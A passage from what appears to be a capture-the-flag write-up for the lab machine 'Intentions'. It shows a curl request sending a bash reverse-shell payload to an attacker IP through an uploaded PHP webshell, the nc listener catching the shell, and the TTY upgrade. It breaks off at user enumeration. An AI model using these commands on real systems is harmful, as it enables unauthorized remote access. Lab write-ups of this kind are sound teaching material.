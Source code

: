     bad image path



I came across this several ways. One way this comes up is copying the
POC from the blog, which comes with extra spaces in the payload and
cause this result.

### Shell

To get a shell from the webshell, I'll just send a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) payload. I'll put it
in the POST body (I used `$_REQUEST` to read `cmd` from either GET
parameters or POST body):



    oxdf@hacky$ curl http://10.10.11.220/storage/0xdf.php -d 'cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261"' 



This just hangs, but at `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.220 43878
    bash: cannot set terminal process group (1070): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@intentions:~.md/intentions/storage/app/public$



I'll [upgrade the shell](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    www-data@intentions:~.md/intentions/storage/app/public$ script /dev/null -c bash
    <ntions/storage/app/public$ script /dev/null -c bash      
    Script started, output log file is '/dev/null'.
    www-data@intentions:~.md/intentions/storage/app/public$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    echwww-data@intentions:~.md/intentions/storage/app/public$



## Shell as greg

### Enumeration

#### Home / Web Directories

There are three users with home directories in `/home`:
